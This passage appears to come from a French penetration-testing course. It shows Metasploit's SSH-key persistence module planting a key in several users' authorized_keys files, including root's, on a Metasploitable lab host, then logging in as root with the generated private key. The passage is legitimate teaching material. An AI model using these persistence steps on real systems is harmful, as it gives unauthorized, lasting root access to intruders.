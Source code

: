 On exécute alors le module avec la commande `run`
```bash
msf6 post(linux/manage/sshkey_persistence) > run

[*] Checking SSH Permissions
[*] Authorized Keys File: .ssh/authorized_keys
[*] Finding .ssh directories
[+] Storing new private key as /home/formation/.msf4/loot/20210519091636_default_10.10.11.32_id_rsa_436775.txt
[*] Adding key to /home/msfadmin/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /home/user/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /root/.ssh/authorized_keys
[+] Key Added
[*] Post module execution completed

```

Une __clé publique SSH__ a été ajouté dans le fichier authorized_keys des différents utilisateurs.\
Une __clé privée SSH__ a été générée ici :  `/home/formation/.msf4/loot/20210519091636_default_10.10.11.32_id_rsa_436775.txt`.

On peut utiliser notre clé privée SSH pour se connecter au serveur :

Dans un Shell
```bash
$ cd /home/formation/.msf4/loot/
                                                                                                                     
$ chmod 600 20210519091636_default_10.10.11.32_id_rsa_436775.txt 
                                                                                                                     
$ ssh -i 20210519091636_default_10.10.11.32_id_rsa_436775.txt root@10.10.11.32

root@metasploitable:~#  
```

## A la main

Générer des clés ssh :
```bash
$ssh-keygen 

Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/user/.ssh/id_rsa
Your public key has been saved in /home/user/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:O+OS/C5qQNVIF/T8CsoImHAkhjYIrHujcvmhucboCIU user@parrot-virtual
The key's randomart image is:
+---[RSA 3072]----+
|B....++.         |
|+*  o..o         |
|+ o.    o        |
|++.      .       |
|Eo.   . S .      |
|.o+o . . o       |
|.=.++. .=        |
|* =o..=. o       |
|++++o. =+        |
+----[SHA256]-----+
```

